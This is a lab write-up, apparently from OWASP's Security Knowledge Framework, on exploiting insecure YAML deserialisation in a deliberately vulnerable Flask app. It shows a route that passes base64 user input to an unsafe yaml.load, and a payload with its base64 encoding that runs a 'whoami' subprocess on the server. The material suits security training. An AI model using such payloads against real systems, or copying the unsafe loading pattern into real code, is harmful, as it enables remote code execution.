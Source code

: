 # Deserialisation Yaml

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

This application is using a yaml serialised object to display the content in the HTML. As you can see below, the default base64 encoded string is loaded as part of the URL.

![](../../.gitbook/assets/python/DES-Yaml/1.png)

By Base64 decoding you can see it uses a key value pair -> foo : value

![](../../.gitbook/assets/python/DES-Yaml/2.png)

Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the Base64 encoded string to be processed by the application and use YAML to parse parse the key value to display the content in the application as shown below.

![](../../.gitbook/assets/python/DES-Yaml/1.png)

In the code example the _input_ query string parameter is used to read the input value but as you can see this is under the users control. Instead of just sending the intended text over the request, a potential attacker could abuse this function to also supply his own crafted yaml that the attacker controls.

```python
@app.route("/information/<input>", methods=['GET'])
def deserialization(input):
    try:
            if not input:
                return render_template("information/index.html")
            yaml_file = base64.b64decode(input)
            content = yaml.load(yaml_file)
    except:
            content = "The application was unable to  to deserialize the object!"
    return render_template("index.html", content = content['yaml'])
```

## Exploitation

### Step 1

A potential attacker can now tamper the Base64 encoded yaml parameter that will be parsed by the application.

Let's try to craft or own yaml object and check whether the application will accept it or not.

```yaml
yaml: woop woop
```

Encode it in Base64 and put it in place the original yaml object.

```
eWFtbDogd29vcCB3b29w
```

![](../../.gitbook/assets/python/DES-Yaml/3.png)

As you can see our yaml object was accepted and parsed by the application.

When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
yaml: !!python/object/apply:subprocess.check_output ["whoami"]
```

Base64:

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnd2hvYW1pJ10=
```

Now when we submit the new yaml object we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.

![](../../.gitbook/assets/python/DES-Yaml/4.png)

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization_Cheat_Sheet#Python" %}
